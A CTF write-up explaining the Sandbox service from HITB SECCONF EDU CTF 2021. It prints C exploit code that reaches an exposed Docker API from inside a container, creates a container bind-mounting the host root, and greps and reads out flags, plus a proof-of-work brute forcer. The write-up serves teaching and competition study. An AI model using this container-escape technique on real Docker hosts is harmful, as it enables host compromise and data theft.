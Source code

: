 # Writeup for the Sandbox service from HITB SECCONF EDU CTF 2021

## About the service

Service Sandbox provides a very simple functionality: it allows to run a small C program with passed input and get it's output.

Service has HTTP API which can be observed on http://<IP>:8000/docs:

![Swagger for Sandbox service](images/swagger.png)

Endpoints `/users` and `/login` are intuitive.

Endpoints `/programs` allow to upload a C program and list available programs available for running.

Running a program is CPU bound task so you we need to protect the service from the flood. It's the reason why proof-of-work has been added to the service.
First, you need to send POST request to `/programs/{program_id}/challenge`, receive challenge and solve it (it takes ~60 seconds in one core).
After that you are able to run a program: just send a POST request to `/programs/{program_id}/run` with solved challenge and input for your program. 

Service is written on Python, uses FastAPI as a framework and PostgreSQL as a database. It runs programs inside of docker containers, which are located
in the separate virtual machine (VirtualBox).

## Structure of the service

Service has three parts, which can be found at `/home/sandbox` of the vulnerable image.

First part is Python application located in `src` subfolder.
Second part is VirtualBox machine, created from the image located in `sandbox_vm_image` subfolder. VirtualBox machine doesn't have internet connection, only python application can connect to it (
to 22/tcp — SSH, and to 2375/tcp — Docker)
And third part is Docker image located in `sandbox_docker_image`. Containers created from this image are running inside of VirtualBox machine.
You can investigate internals of Docker image, because it's just a .tar.gz archive.

## Vulnerability

VirtualBox machine has docker socket which accepts connections from the Python service. It's builtin feature of the Docker daemon.
But if you allow to connect to the Docket socket, you should be 100% sure that only legit users can do it. 

In our case we can connect to the Docker socket from the Docker container, so it's not safe! We can run a program which connects to the Docker socket, creates a new container, mount
host file system, run some code in privileged mode and so on... It's a big security hole!

We have only two problems.

1. We need to connect to the Docker socket from C program without any libraries installed. Fortunately, Docker socket has HTTP API. Example of program connecting to this API and creating some containers
could be found at [sploit folder](../sploits/sandbox/program_template.c). Some piece of code from there:

```(c)
void create_hacking_container() {
    char result[BUFFER_SIZE];

    // 1. Create a container
    char* shell_command = "while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done";
    char body[BUFFER_SIZE];
    sprintf(body, "{\"Image\": \"sandbox\", \"EntryPoint\": \"/bin/sh\", \"Cmd\": [\"-c\", \"%s\"], \"HostConfig\": { \"Binds\": [\"/:/host\"] }}", shell_command);
    send_http_request_post(docker_host, DOCKER_PORT, "/containers/create", body, result);
    printf("%s", result);

    char container_id[DOCKER_CONTAINER_ID_LENGTH + 1];
    extract_json_field(result, "Id", container_id);

    printf("Container id: %s\n", container_id);

    // 2. Run the container
    char run_container_url[MAX_URL_LENGTH + 1];
    snprintf(run_container_url, MAX_URL_LENGTH, "/containers/%s/start", container_id);
    send_http_request_post(docker_host, DOCKER_PORT, run_container_url, "{}", result);
    printf("%s", result);

    printf("FOR EXPLOIT:\n%s\n", container_id);
}
```

This part of code creates a fresh Docker container (without any limits), mounts host's root directory / to /host and run following shell command with flag grepping (programs with flags are stored in `/tmp/*/program.c` for some time):

```(bash)
while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done
```

After that program runs this container and prints to stdout the id of this container. After some time we can send another program which connects to Docker socket and read logs (stdout and stderr)
of this container by it's id. Logs should contains greppped flags:

```(c)
void get_hacking_container_output(const char* container_id) {
    char result[BUFFER_SIZE];

    char get_container_logs_url[MAX_URL_LENGTH + 1];
    snprintf(get_container_logs_url, MAX_URL_LENGTH, "/containers/%s/logs?stdout=true&stderr=true&tail=20", container_id);
    int len = send_http_request_get(docker_host, DOCKER_PORT, get_container_logs_url, result);

    print_hex_buffer(result, len);
}

```

2. We need to pass the proof-of-work challenge to run a program. There is no other way to brute force it. I've done it in C++:

```(cpp)
#include <openssl/sha.h>

using namespace std;

string sha256(const string& str) {
    unsigned char hash[SHA256_DIGEST_LENGTH];
    SHA256_CTX sha256;
    SHA256_Init(&sha256);
    SHA256_Update(&sha256, str.c_str(), str.size());
    SHA256_Final(hash, &sha256);
    stringstream ss;
    for(int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        ss << hex << setw(2) << setfill('0') << (int)hash[i];
    }
    return ss.str();
}

int main() {
    ... // read the prefix

    for (unsigned int suffix = 0; ; suffix++) {
        char buffer[17];
        sprintf(buffer, "%08x%08x", prefix, suffix);
        string result = sha256(buffer);
        if (result.substr(0, 6) == "000000") {
            cout << prefix << " " << suffix << " " << buffer << " " << result << endl;
            break;
        }
    }

    return 0;
}
```


